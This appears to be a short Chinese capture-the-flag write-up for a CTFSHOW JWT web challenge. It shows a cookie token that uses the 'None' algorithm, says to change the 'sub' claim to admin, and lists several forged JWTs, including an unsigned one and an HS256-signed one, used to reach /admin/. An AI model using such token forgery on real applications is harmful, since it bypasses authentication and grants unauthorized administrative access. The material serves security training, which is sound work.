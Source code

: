 ### CTFSHOW  - JWT

### web

进入题目可以在cookie中得到这个

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE3MjU5NDk2ODQsImV4cCI6MTcyNTk1Njg4NCwibmJmIjoxNzI1OTQ5Njg0LCJzdWIiOiJ1c2VyIiwianRpIjoiMDk0NmQ3MDU4OGJmOGY5MTQ3MjYzYWMzODQzZTMzYjcifV0
```

![image-20240910233241981](https://gitee.com/bx33661/image/raw/master/path/image-20240910233241981.png)

我们需要的是修改"sub"值为admin，同时访问/admin/

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE3MjU5NDk2ODQsImV4cCI6MTcyNTk1Njg4NCwibmJmIjoxNzI1OTQ5Njg0LCJzdWIiOiJhZG1pbiIsImp0aSI6IjA5NDZkNzA1ODhiZjhmOTE0NzI2M2FjMzg0M2UzM2I3In1d
```



```
eyJhbGciOiJoczI1NiIsInR5cCI6Imp3dCJ9.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE3MjU5NDk2ODQsImV4cCI6MTcyNTk1Njg4NCwibmJmIjoxNzI1OTQ5Njg0LCJzdWIiOiJhZG1pbiIsImp0aSI6IjA5NDZkNzA1ODhiZjhmOTE0NzI2M2FjMzg0M2UzM2I3In1d
```

```
eyJhbGciOiJIUzI1NiIsInR5cCI6Imp3dCJ9.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE3MjU5NDk2ODQsImV4cCI6MTcyNTk1Njg4NCwibmJmIjoxNzI1OTQ5Njg0LCJzdWIiOiJhZG1pbiIsImp0aSI6IjA5NDZkNzA1ODhiZjhmOTE0NzI2M2FjMzg0M2UzM2I3In1d.1H0lYhYYy_qVcebYwcGFA0AxwXU_ySAW7bvHZXONCZI
```

![image-20240910145556223](https://gitee.com/bx33661/image/raw/master/path/image-20240910145556223.png)